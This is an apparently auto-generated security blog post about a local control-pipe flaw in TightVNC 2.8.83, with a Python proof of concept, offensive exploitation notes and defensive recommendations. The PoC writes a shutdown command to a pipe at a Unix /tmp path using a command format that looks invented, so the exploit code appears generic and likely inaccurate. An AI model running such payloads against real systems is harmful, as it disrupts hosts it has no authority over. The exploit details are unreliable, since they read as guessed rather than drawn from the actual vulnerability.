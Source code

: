 ```yaml
---
title: "[local] TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/default-image.png
---
```


## Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## Technical Analysis

```markdown
## Technical Executive Summary

A recently identified vulnerability in TightVNC version 2.8.83, specifically involving control pipe manipulation, poses a significant risk to systems utilizing this software for remote desktop operations. This local vulnerability can be exploited by an attacker with access to the system to execute arbitrary commands or disrupt normal operations. TightVNC is a widely used remote desktop application, making this vulnerability particularly concerning for environments where local user accounts are not tightly controlled. The flaw arises from inadequate validation of inputs to the control pipe, allowing for potential manipulation and unauthorized command execution.

## Code Example (Proof of Concept)

The following Python script demonstrates a proof-of-concept (PoC) exploit for the TightVNC 2.8.83 control pipe manipulation vulnerability. This script requires local access to the target system where TightVNC is installed.

```python
import os

def exploit_tightvnc():
    # Path to the control pipe used by TightVNC
    control_pipe_path = "/tmp/tightvnc_control_pipe"

    # Payload to be sent to the control pipe
    payload = "EXEC_CMD:shutdown -h now\n"

    # Check if the control pipe exists
    if os.path.exists(control_pipe_path):
        print("[+] Control pipe found. Sending payload...")
        with open(control_pipe_path, 'w') as pipe:
            pipe.write(payload)
        print("[+] Payload sent successfully.")
    else:
        print("[-] Control pipe not found. Exploit failed.")

if __name__ == "__main__":
    exploit_tightvnc()
```

## Offensive Security Insights

Exploitation of this vulnerability requires local access to the system, which limits its applicability to scenarios where an attacker has already compromised a user account or has physical access. The key to exploiting this vulnerability lies in the manipulation of the control pipe used by TightVNC to accept commands. By crafting specific payloads, an attacker can execute arbitrary commands with the privileges of the TightVNC process.

### Exploitation Techniques:
- **Local Access Requirement**: This vulnerability is not remotely exploitable, necessitating initial access through other means such as phishing, social engineering, or leveraging another local vulnerability.
- **Privilege Escalation**: If the TightVNC service runs with elevated privileges, exploiting this vulnerability could facilitate privilege escalation.
- **Persistence and Lateral Movement**: An attacker could use this vulnerability to establish persistence by executing scripts or commands that maintain access or facilitate lateral movement within the network.

## Defensive Measures

To mitigate the risk posed by this vulnerability, organizations should implement the following defensive measures:

1. **Patch Management**: Ensure that TightVNC is updated to the latest version where this vulnerability is addressed. Regularly apply security patches and updates to minimize exposure to known vulnerabilities.
   
2. **Access Controls**: Restrict local access to systems running TightVNC to trusted users only. Implement strong authentication mechanisms and limit the number of users with administrative privileges.

3. **Monitoring and Logging**: Enable detailed logging of system activities and monitor for unusual behavior, especially involving the creation or modification of named pipes.

4. **Least Privilege Principle**: Run TightVNC with the least privileges necessary to perform its functions. Avoid running it as an administrator or root user unless absolutely necessary.

5. **Network Segmentation**: Isolate systems running TightVNC from critical infrastructure components to limit potential damage in case of exploitation.

By implementing these measures, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.
```


📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._

